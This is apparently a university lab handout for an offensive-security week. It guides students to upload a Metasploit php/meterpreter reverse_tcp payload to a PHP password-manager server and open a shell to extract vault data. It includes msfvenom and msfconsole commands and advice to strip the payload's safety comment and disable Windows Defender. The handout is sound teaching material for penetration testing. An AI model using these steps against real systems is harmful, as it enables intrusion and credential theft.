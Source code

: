# Week 6 | Offensive

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .
```

## Part 1: Planning our Attack
Some helpful definitions to recall from lecture are:
- `Vulnerability`: A weakness which can be exploited by a threat actor, such as an attacker.
- `Exploit`: An exploit is an avenue in which we can take advantage of a particular vulnerability.
- `Payload`: A piece of code to be executed through said exploit on a specific target.
- `Target`: A system being exploited and that will run the payload.

We will be crafting a payload to take advantage of a vulnerability through an exploit on the target machine.

1. We need to identify a vulnerability. How can we get a piece of code onto our password manager?
    - Note that this should also be a place where we can **execute** the payload. We need to be able to run our code once we somehow get it onto our target machine.

Once we have identified our vulnerability, we can begin crafting our payload!

## Part 2: Setting up Metasploit

Metasploit is a framework that allows penetration testers to identify, exploit, and validate vulnerabilities in a system. It includes an extensive set of tools specifically for penetration testing. We can use the tools to generate payloads that will allow us to easily attack a system.

We will be utilizing metasploit through a Docker container. In a "real" pen testing role, you may find it more beneficial to use metasploit via a virtual machine running Kali Linux, a distribution of Linux that includes a host of tools for offensive security (including metasploit)! For our purposes, a Docker container will allow us to quickly and easily access the tools we need.

1. First, we need to deploy a docker container running metasploit. Run the following command to pull the metasploit image and spin up a container with that new image.

    ```
    docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework
    ```

    Your terminal should now be running the metasploit docker container! You should see something similar to the following output:

    ![metasploit contianer](/lab-writeup-imgs/metasploit_container.png)

    Two things to take note of, the ASCII art will most likely be different, and your LHOST should be printed at the bottom of the terminal (highlight in red in the image above). This is the IP address of the docker container running metasploit within the private docker network. This is **different** from your external IP address.


## Part 3: Crafting our Payload

As mentioned above, metasploit comes with a suite of tools for us to use for pentesting and offensive security purposes. One of those tools being msfvenom. Msfvenom lets us generate customized payloads for our specific attack. We will be using msfvenom to easily craft the payload we will be using in this lab!

The payload we will be crafting will be built off of the `meterpreter` payload. This payload provides an interactive shell between the victim's machine and the attacker's machine. This shell will allow us to explore our target and execute commands on their device!

Before we make our payload, we can use this simple script to see if we can actually run code on the server:

    ```
    <?php
    $files = scandir(getcwd());
    print_r($files);
    ?>
    ```
Save this as a `.php` file and try to run it on the server!

Once we confirmed this is possible, we can proceed with making our malware!

1. To generate our payload, we will use the following command:

    ```
    /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
    ```

    - `-p php/meterpreter_reverse_tcp`: This specific payload builds the meterpreter payload in PHP, which is what we want since we know that the target is a PHP server. 

        The `reverse_tcp` part refers to the type of network communication method that this payload will establish. Essentially, we are creating forcing the victim's machine to connect to a service that will be running off of our machine, hence the 'reverse' part.

    - `LHOST=<LHOST> LPORT=4444`: We then set the `LHOST` and `LPORT` to match the IP address and the port that the victim will be connecting to.

    - `-f raw`: This specifies the payload should be 'raw' output, meaning it will just print to our terminal rather than being saved to a file.

2. Once you have run the command above, you should get a large output in your terminal. This is our payload! We can copy it and paste it into a `.txt` file on our machine. Make sure you save it as `reverse_tcp.php`, so that it can be executed as a PHP script.

    - Note that the payload will have a comment tag at the beginning. This is to ensure that the payload does not accidentally execute! We can remove this before saving so that the payload will run on our target machine.

    - **NOTE:** If you are on windows, Windows Defender may automatically delete the payload once it is saved. If you are saving your payload and it is getting deleted immediately, disable Windows Defender for the duration of the lab.

## Part 4: Setting up our attacking machine
1. To select this payload, run the following command in the msfconsole container:

    ```
    use php/meterpreter/reverse_tcp
    ```

2. Once we have selected this payload, let's double check that all of our options are configured correctly. Run the following command to see all options we can configure:

    ```
    options
    ```

    You should see two possible options, `LHOST` and `LPORT`.

    - LHOST: This is the address of the machine the victim will try to connect to during our attack. It is the address that should have the service "**L**istening" for a connection. This should match the LHOSt you saw in part 1.
    - LPORT: This is the port the service will be "**L**istening" on.

    These two options should already be configured by default to match your metasploit container's IP address and the appropriate port (4444).

3. Next, we will run the following command to start the service. It will be listening on port 4444 for incoming connections from our victim's machine.

    ```
    exploit
    ```

## Part 5: Attacking the Password Manager >:)

By now, you have the service listening within your metasploit container and have successfully placed the payload on the target's machine.

We need to now somehow execute the payload to establish a connection from the target's device to our attacking machine. Can you think of a way that we can run the payload?

Once you have successfully executed the payload, you can list all of your sessions running in metasploit with the following command:

```
sessions -l
```

You should see your sessions listed with a session ID. To interact with the session of interest, enter the following command with the session ID:

```
sessions -i <ID>
```

You should now be able to access the shell connected with the victim's machine! Start exploring the target and see if you are able to extract the information from their personal vault!

## For credit:

Take a screenshot of the shell session you established, along with the .txt file uploaded by your lab partner!
